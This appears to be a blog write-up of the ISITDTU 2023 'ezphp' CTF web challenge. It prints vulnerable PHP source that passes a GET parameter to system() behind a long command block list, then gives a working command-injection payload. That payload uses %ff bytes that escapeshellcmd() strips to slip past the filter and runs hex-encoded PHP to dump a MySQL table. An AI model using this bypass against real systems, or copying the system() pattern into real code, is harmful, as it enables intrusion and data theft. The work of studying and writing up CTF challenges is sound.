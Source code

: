 ```yaml
---
layout: post
title: ISITDTU CTF Qualifiers 2023 - ezphp Writeup
excerpt: "Despite being titled ezphp, this challenge was anything but easy. Let's take a look at how I solved it."
categories: [Writeups]
tags: [web]
---
```

Despite being titled ezphp, this challenge was anything but easy. It took be beyond the end of the CTF to finish, but it was a fun challenge nonetheless. 

We are provided a link and some source code. The source code is as follows:

```php
<html>
 <head>
  <title> Debug Page...</title>

  <meta charset="utf-8">

  <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
  <script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

</head>
<body>
    <div class="container">
    <?php
    error_reporting(0);
    $conn = mysqli_connect('db', 'user', 'test', "dockerExample");


    $query = 'SELECT * From Person';
    $result = mysqli_query($conn, $query);

    echo '<table class="table table-striped">';
    echo '<thead><tr><th></th><th>id</th><th>name</th></tr></thead>';
    while($value = $result->fetch_array(MYSQLI_ASSOC)){
        echo '<tr>';
        echo '<td><a href="#"><span class="glyphicon glyphicon-search"></span></a></td>';
        foreach($value as $element){
            echo '<td>' . $element . '</td>';
        }

        echo '</tr>';
    }
    echo '</table>';

    $result->close();

    mysqli_close($conn);

    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
 
	$cmd = $_GET['cmd']; 
    foreach ($blacklists as $blacklist) {
    	$pattern = "/$blacklist/";
		if (preg_match($pattern, $cmd)) {
			die("Blacklist");
		}
	}

    system(escapeshellcmd($cmd));

    ?>
    </div>
</body>
</html>
```

We have a lot to look at, not only do have an extrmemly extensive blacklist, but we also have a database conneciton. We can see that the database connection is to a mysql database, and we can see that the database name is dockerExample.

Looking at the sql file we are given, we can see that there are two tables, Person and Flag_is_secret. 


```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;


CREATE TABLE `Person` (
  `id` int(11) NOT NULL,
  `name` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

CREATE TABLE `Flag_is_secret` (
  `id` int(11) NOT NULL,
  `flagss1337` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

INSERT INTO `Person` (`id`, `name`) VALUES
(1, 'Doraemon'),
(2, 'Conan'),
(3, 'Hanamichi');

INSERT INTO `Flag_is_secret` (`id`, `flagss1337`) VALUES
(1, 'NA'),
(2, 'NA'),
(3, 'ISITDTU{fake_flag}');

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

We can see that the flag is stored in the Flag_is_secret table, but we unfornately cannot access it directly. This is where the cmd parameter comes in. 

We can use the cmd parameter to run commands on the server. However, we are limited by the blacklist.
    
```php
    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
```

It is truely extensive, and it took me a while to find a bypass. I tried a lot of different things, but I eventually found a bypass. 
```
%ff
```
This bypasses the blacklist, and allows us to run commands. As we can see here we can run "php"
![](https://i.imgur.com/ZzsHzgm.png)

We now have to connect to the mysql database in order to extract the flag. We can do this by running the following command:
```php
ª$c = new mysqli('db', 'root', 'test', 'dockerExample');
$r = $c->query('SELECT * FROM The_table_you_dont_know');
while ($w = $r->fetch_assoc()) {
    print_r($w);
}
```
This php code will connect to the mysql database, and print out the contents of the table `the_table_you_dont_know` as it not actually in the `flag_is_secret` table.

We can then convert this php into hex:
```
aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a
```

We can then use eval(), substr() and hex2bin() to run this php code:
```php
php -r eval(substr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1));
```

Thought we still have have an issue with the blacklist. We can bypass this by using %ff. There is a flaw in PHP's escapeshellcmd() function  which stems from its handling of invalid Unicode characters, creating a security gap ripe for exploitation. Initially, the input is scanned against a blacklist via regex, which fails to match harmful strings like `ph\xFFp` due to the presence of `\xFF`. When escapeshellcmd() is invoked, it removes these invalid Unicode characters, effectively transforming the string into something like php, which bypasses the original filter. This results in a discrepant string representation at the regex and shell escaping stages, ultimately leaving the system vulnerable to command injection attacks.

The php documentation says the following are escaped by escapeshellcmd():
```
&#;`|*?~<>^()[]{}$\, \x0A and \xFF.
``` 


Keeping this bypass in mind, we can then run the following command after url encoding it:
```php
p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1))%3b
```

We can then run this command inside the url, and we get the flag:
![](https://i.imgur.com/DQQFSws.png)

Even though I struggled, I learned a lot, and I had a lot of fun. I hope you enjoyed this writeup, and thank you to the ISITDTU team for hosting this CTF. See you next year!